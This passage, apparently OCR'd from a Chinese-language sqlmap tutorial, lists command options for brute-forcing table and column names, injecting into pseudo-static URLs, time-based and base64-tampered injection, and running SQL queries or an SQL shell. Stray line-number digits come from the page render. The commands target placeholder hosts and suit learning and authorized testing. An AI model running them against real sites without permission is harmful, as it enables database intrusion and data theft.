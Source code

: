 ##### 30、暴力破解表名

```
参数：--common-tables

当使用--tables无法获取到数据库的表时，可以使用此参数。
通常是如下情况：
1、MySQL数据库版本小于5.0，没有information_schema表。
2、数据库是Microssoft Access,系统表MSysObjects是不可读的(默认)。
3、当前用户没有权限读取系统中保存数据结构的表的权限。

暴力破解表在txt/common-tables.txt文件中，可添加。
xx --common-tables -D testdb
12345678910
```

##### 31、暴力破解列名

```
--common-columns

xx --common-columns -T text -D testdb
123
```

##### 32、伪静态注入

```
注入点：http://xxxxxx/index/view/id/40.html

sqlmap -u "http://xxxxxx/index/view/id/40*.html"
123
```

##### 33、延迟注入

```
--time-sec
1
```

##### 34、base64编码注入

```
sqlmap -u http://xxx/index.php?tel=LTEnlG9lskchdi --tamper base64encode.py -dbs
1
```

##### 35、执行SQL语句

```
--sql-query="select @@version"  执行单条语句  
--sql-shell   执行多条语句  
12
```

##### 36、文件读写
